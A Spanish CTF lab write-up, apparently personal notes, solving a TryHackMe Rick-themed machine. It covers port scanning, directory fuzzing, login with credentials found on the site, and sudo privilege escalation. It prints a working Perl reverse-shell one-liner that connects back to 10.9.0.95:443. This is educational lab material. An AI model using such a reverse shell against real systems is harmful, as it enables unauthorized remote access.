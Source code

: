   
![[lolo_apuntes.pdf]]
  
Iniciamos con la VPN de tryhackme:
  
  
![[/Untitled 39.png|Untitled 39.png]]
![[/Untitled 1 5.png|Untitled 1 5.png]]
Confirmamos que tenemos conexión con la vpn:  
  
  
![[/Untitled 2 6.png|Untitled 2 6.png]]
  
Iniciamos la maquina:
![[/Untitled 3 6.png|Untitled 3 6.png]]
  
Comprobamos que tenemos conexión a la maquina:
![[/Untitled 4 5.png|Untitled 4 5.png]]
  
METODOLOGIA DE ATAQUE
A continuación, procedemos a realizar un escaneo inicial para identificar los puertos abiertos y los servicios que están funcionando en la máquina.
![[NMAP-6_-Listado-de-comandos.pdf]]
sudo nmap -p- --open -sS --min-rate 5000 -v -n -Pn 10.10.168.5
![[/Untitled 5 5.png|Untitled 5 5.png]]
  
Podemos ver que los puertos 80 (http) y 22 (ssh) están abiertos.
Comenzamos atacando el puerto 80 introduciendo la ip de la maquina en el navegador:  
  
![[/Untitled 6 5.png|Untitled 6 5.png]]
Ctrl u para ver el código de la web:  
  
![[/Untitled 7 5.png|Untitled 7 5.png]]
  
Podemos ver un supuesto usuario.
El siguiente paso es ver el documento robots.txt:
![[/Untitled 8 5.png|Untitled 8 5.png]]
Únicamente se encuentra esta palabra rara.
  
Intentamos acceder mediante ssh con el usuario encontrado, pero vemos que no es posible la conexión mediante la terminal, restricción mediante la clave publica.
![[/Untitled 9 5.png|Untitled 9 5.png]]
  
Utilizamos el fuzzer llamado ffuf para ver si hay alguna ruta interesante.  
  
ffuf -w directory-list-2.3-medium.txt -u [http://10.10.168.5/FUZZ.php](http://10.10.168.5/FUZZ.php)
-u: URL objetivo con FUZZ como marcador de posición para el fuzzing.  
-w: Ruta al diccionario.  
  
![[/Untitled 10 5.png|Untitled 10 5.png]]
![[/Untitled 11 5.png|Untitled 11 5.png]]
![[/Untitled 12 4.png|Untitled 12 4.png]]
Ingresamos una ruta encontrada llamada assets y deducimos que hay mas web ya que hay imágenes que no hemos visto.
![[/Untitled 13 4.png|Untitled 13 4.png]]
Ingresamos en el navegador lo siguiente 10.10.168.5/portal.php y nos redirige a [http://10.10.168.5/login.php](http://10.10.168.5/login.php) :
  
![[/Untitled 14 3.png|Untitled 14 3.png]]
Intentamos acceder con el usuario encontrado anteriormente y con la palabra rara del robots.txt:  
  
  
  
`R1ckRul3s`  
  
`Wubbalubbadubdub`
![[/Untitled 15 2.png|Untitled 15 2.png]]
Nos encontramos con un panel de comandos, suponemos que es la terminal de comandos del dispositivo donde se aloja la web.
![[/Untitled 16 2.png|Untitled 16 2.png]]
Mediante un ls observamos que tenemos el ingrediente, por lo que intentamos con cat ver el contenido pero esta deshabilitado.
Alternativas al cat: [https://baulderasec.wordpress.com/programacion/primeros-pasos-con-linux/visualizar-ficheros-cat-more-less-head-tail/](https://baulderasec.wordpress.com/programacion/primeros-pasos-con-linux/visualizar-ficheros-cat-more-less-head-tail/)
![[/Untitled 17 2.png|Untitled 17 2.png]]
Comprobamos con un more, pero finalmente conseguimos el contenido mediante un less:  
  
![[/Untitled 18 2.png|Untitled 18 2.png]]
Investigando encontramos que hay mas contenido en clue.txt
![[/Untitled 19 2.png|Untitled 19 2.png]]
En la vista del command panel encontramos esto en el código:  
  
![[/Untitled 20 2.png|Untitled 20 2.png]]
Parece ser una distracción, ya que parece ser base64 y no encontramos nada claro por lo que intentamos ver otros directorios.
Nos encontramos en  
  
![[/Untitled 21 2.png|Untitled 21 2.png]]
Listamos el contenido de var y nos encontramos con esto
![[/Untitled 22 2.png|Untitled 22 2.png]]
Listamos el contenido de home
![[/Untitled 23 2.png|Untitled 23 2.png]]
Listamos el contenido de rick
![[/Untitled 24 2.png|Untitled 24 2.png]]
Nos encontramos con el segundo ingrediente, intentamos ver el contenido
![[/Untitled 25 2.png|Untitled 25 2.png]]
Parece estar vacio, pero intentaremos atacar con una reverse shell para ver si encontramos algo mas.
Para lanzar la reverse shell: [https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)  
  
  
`perl -e 'use`
`Socket;$i="10.9.0.95";$p=``**443**``;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("``**sh**` `-i");};'`
  
Nos ponemos en escucha en el 443 con netcat(puerto configurado para la reverse shell):  
  
![[/Untitled 26 2.png|Untitled 26 2.png]]
Lanzamos la reverse shell:  
  
![[/Untitled 27 2.png|Untitled 27 2.png]]
Estamos dentro
![[/Untitled 28 2.png|Untitled 28 2.png]]
Intentamos acceder al segundo ingrediente que vimos desde la command panel de la web
![[/Untitled 29 2.png|Untitled 29 2.png]]
![[/Untitled 30 2.png|Untitled 30 2.png]]
Éncontramos el contenido del segundo ingrediente
![[/Untitled 31 2.png|Untitled 31 2.png]]
Despues intentamos acceder al directorio root, pero no nos deja acceder ya que no tenemos permisos, y lanzamos el comando sudo -l para ver si podemos lanzar el comando sudo y vemos que si
![[/Untitled 32 2.png|Untitled 32 2.png]]
Ya que no requiere contraseña escalamos privilegios de la siguiente manera
![[/Untitled 33 2.png|Untitled 33 2.png]]
Ahora si vamos a poder acceder al directorio root
![[/Untitled 34 2.png|Untitled 34 2.png]]
Ya tenemos el tercer ingrediente veamos el contenido
![[/Untitled 35 2.png|Untitled 35 2.png]]
  
Maquina terminada.
